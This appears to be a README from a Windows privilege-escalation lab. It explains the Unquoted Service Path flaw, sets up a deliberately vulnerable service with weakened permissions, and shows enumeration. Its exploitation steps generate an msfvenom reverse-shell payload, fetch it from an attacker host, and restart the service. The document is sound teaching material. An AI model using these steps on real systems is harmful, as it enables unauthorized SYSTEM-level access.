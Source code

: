 # Unquoted Service Path

## Table of Contents

- [Unquoted Service Path](#unquoted-service-path)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

The Unquoted Service Path vulnerability in Windows occurs when services are installed using paths containing spaces without proper quotation marks. If attackers obtain write permissions in the service's installation directory, they can execute malicious code with elevated privileges.

In Windows, when a file path contains spaces and isn't enclosed within quotation marks, the operating system assumes the file's location based on predetermined rules.

This process involves checking potential paths in a sequence similar to the following:

1) C:\Program.exe

2) C:\Program Files\Vulnerable.exe

3) C:\Program Files\Vulnerable Service1\Service.exe

4) C:\Program Files\Vulnerable Service1\Service 1.exe (Finally arriving at the specified path)

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir C:\Program` Files\Vulnerable` Service1
```

2) Download the file [Service 1.exe](/Lab-Setup-Binary/Service%201.exe) to the 'C:\Program Files\Vulnerable Service1' directory.

3) Grant write privileges to BUILTIN\Users for the service folder:

```
icacls "C:\Program Files\Vulnerable Service1" /grant BUILTIN\Users:W
```

4) Install the new Service:

```
New-Service -Name "Vulnerable Service 1" -BinaryPathName "C:\Program Files\Vulnerable Service1\Service 1.exe" -DisplayName "Vuln Service 1" -Description "My Custom Vulnerable Service 1" -StartupType Automatic
```

5) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 1" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Unquoted-Service-Path-Manual-Lab-Setup](/Pictures/Unquoted-Service-Path-Manual-Lab-Setup.png)

6) Verify the new service (services.msc):

![Unquoted-Service-Path-Manual-Lab-Setup-Verify](/Pictures/Unquoted-Service-Path-Manual-Lab-Setup-Verify.png)

7) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 1"
```

### PowerShell Script Lab Setup

To set up the lab with the 'Unquoted Service Path' vulnerability is by using the custom PowerShell script named [UnquotedServicePath.ps1](/Lab-Setup-Scripts/UnquotedServicePath.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\UnquotedServicePath.ps1
```

Outcome:

![Unquoted-Service-Path-Script-Lab-Setup](/Pictures/Unquoted-Service-Path-Script-Lab-Setup.png)

2) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 1"
```

## Enumeration

### Manual Enumeration

1) Open a command prompt and use the following command to find out if there is any service application vulnerable to Unquoted Service Path:

```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

2) Use the following command to find the `START_TYPE`, `SERVICE_START_NAME` and `BINARY_PATH_NAME`:

```
sc qc "Vulnerable Service 1"
```

3) Use icacls to identify the permissions of the service installation folder:

```
icacls "C:\Program Files\Vulnerable Service1"
```

Outcome:

![Unquoted-Service-Manual-Enumeration](/Pictures/Unquoted-Service-Manual-Enumeration.png)

:information_source: Finally, as you can see: 

- There is a vulnerable service named "Vulnerable Service 1".
- The service automatically starts after machine boots.
- The Local System runs the service.
- The BUILTIN\Users can write in C:\Program Files\Vulnerable Service1 folder.

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Unquoted Service Path` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit UnquotedServicePath
```

Outcome:

![Unquoted-Service-Tool-Enumeration](/Pictures/Unquoted-Service-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) Verify the service state:

```
sc query "Vulnerable Service 1"
```

2) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service.exe
```

3) Open a listener in your kali machine.

4) Transfer the malicious executable in "C:\Program Files\Vulnerable Service1\":

```
iwr -Uri http://<ip>:<port>/Service.exe -Outfile "C:\Program Files\Vulnerable Service1\Service.exe"
```

5) Try to find out if you have the permission to restart the service or re-start the machine:

```
sc stop "Vulnerable Service 1"
```

and 

```
sc start "Vulnerable Service 1"
```

Outcome:

![Unquoted-Service-Exploitation](/Pictures/Unquoted-Service-Exploitation.png)

6) Verify the reverse shell on your Kali machine:

![Unquoted-Service-Path-Reverse-Shell](/Pictures/Unquoted-Service-Path-Reverse-Shell.png)

## Mitigation

To defend against Unquoted Service Path vulnerabilities, adjust modify the service configuration to include proper quotation marks around the executable path. Moreover, review the permissions of service installation folder and binary file to prevent unauthorized changes.

## References

- [Introduction to Windows Services applications Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/introduction-to-windows-service-applications)
- [Hot to Create Windows Services Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/how-to-create-windows-services)
- [Fix Windows Unquoted Service Path Vulnerability by isgovern](https://isgovern.com/blog/how-to-fix-the-windows-unquoted-service-path-vulnerability/)
- [Unquoted Service Paths by CyberTec](https://kb.cybertecsecurity.com/knowledge/unquoted-service-paths)
- [FixUnquotedPaths GitHub by NetSecJedi](https://github.com/NetSecJedi/FixUnquotedPaths)
